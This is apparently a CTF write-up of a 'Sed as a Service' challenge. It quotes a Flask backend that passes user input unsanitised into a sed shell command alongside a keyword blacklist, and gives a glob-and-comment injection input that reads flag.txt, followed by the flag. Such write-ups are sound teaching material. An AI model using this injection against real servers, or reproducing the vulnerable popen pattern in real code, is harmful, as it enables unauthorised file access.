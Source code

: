 # Sed as a Service (SaaS)

>We have to find the flag which is present in flag.txt

We have the source code of the Sed server.
While inspecting the source code, we find an interesting thing:

```python
blacklist = ["flag", "cat", "|", "&", ";", "`", "$"]
```

Thus, we can see that flag is blacklisted. Also, cat is blacklisted. So we cannot append cat with the sed command.

We also see from app.py,

```python
@app.route('/backend')
def backend():
    for word in blacklist:
        if word in request.args['query']:
            return "Stop hacking.\n"
    return html.escape(os.popen(f"sed {request.args['query']} stuff.txt").read())
```

Thus we observe that our query is passed without any sanitation into a shell command.
While using the web-app, if we use 

```bash
's/a/a/g'
```
we find out that stuff.txt contains a simple Lorem text.

We then try to appendother commands with sed, but it does not work.
Then we try
```bash
's/a/a/g' *.txt #
```
This causes sed to replace all the 'a' with 'a' in all files having a .txt extension. We end it with a # to comment out the rest of the command in the original format string mentioned in app.py
Thus the final command becomes
```bash
sed 's/a/a/g' *.txt # stuff.txt
```
which gives us the contents of flag.txt
We see that flag is printed at the beginning:

ictf{:roocu:roocu:roocu:roocu:roocu:roocursion:rsion:rsion:rsion:rsion:rsion:_473fc2d1}

